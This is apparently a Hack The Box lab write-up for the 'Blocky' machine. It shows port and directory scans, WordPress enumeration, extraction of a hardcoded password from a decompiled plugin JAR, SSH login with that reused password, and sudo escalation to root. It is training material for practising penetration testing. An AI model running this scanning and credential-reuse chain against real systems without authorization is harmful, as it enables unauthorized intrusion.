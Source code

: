 # 🧠 HTB: Blocky

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
## 🛰️ Recon

### 🔍 Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.37
```
> Identifies ports 21 [FTP](FTP), 22 [SSH](SSH), 80 [HTTP](HTTP), and 25565 (Minecraft, closed).

### 🔍 Targeted Service Enumeration
```bash
nmap -p 21,22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.37
```
> Finds FTP (ProFTPD 1.3.5a), SSH (OpenSSH 7.2p2), HTTP (Apache with WordPress 4.8).

---

## 🌐 Web & WordPress Enumeration

### 🧪 Directory Brute Force
```bash
gobuster dir -u http://10.10.10.37 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php -t 40 -o scans/gobuster-root-medium
```
> Discovers important directories: `/wp-login.php`, `/plugins/`, `/phpmyadmin`, `/wiki`.

### 🔍 WordPress Scan
```bash
wpscan --url http://10.10.10.37 -e ap,t,tt,u | tee scans/wpscan
```
> Finds:
- WP version: 4.8
- User: `notch`
- `/wp-content/uploads/` listing enabled
- `/xmlrpc.php` accessible

---

## 📦 Plugin Enumeration & JAR Analysis

### 🔽 Download Java JAR Files from `/plugins/`
> Found by visiting `/plugins` in browser.

### 🧪 Decompile with jd-gui (GUI tool)
```bash
# No command—GUI-based tool
```
> `BlockyCore.jar` contains hardcoded MySQL password:  
`8YsqfCTnvxAUeduzjNSXe22`

---

## 🔓 Shell as notch

### 🧪 Attempt SSH Login with Found Credentials
```bash
sshpass -p 8YsqfCTnvxAUeduzjNSXe22 ssh notch@10.10.10.37
```

### 📄 Capture User Flag
```bash
cat ~/user.txt
```

---

## 🪜 Privilege Escalation to root

### 🔍 Check sudo Rights
```bash
sudo -l
```
> notch can run **ALL commands as root**.

### 🔁 Elevate to Root
```bash
sudo su -
```

### 🏁 Capture Root Flag
```bash
cat /root/root.txt
```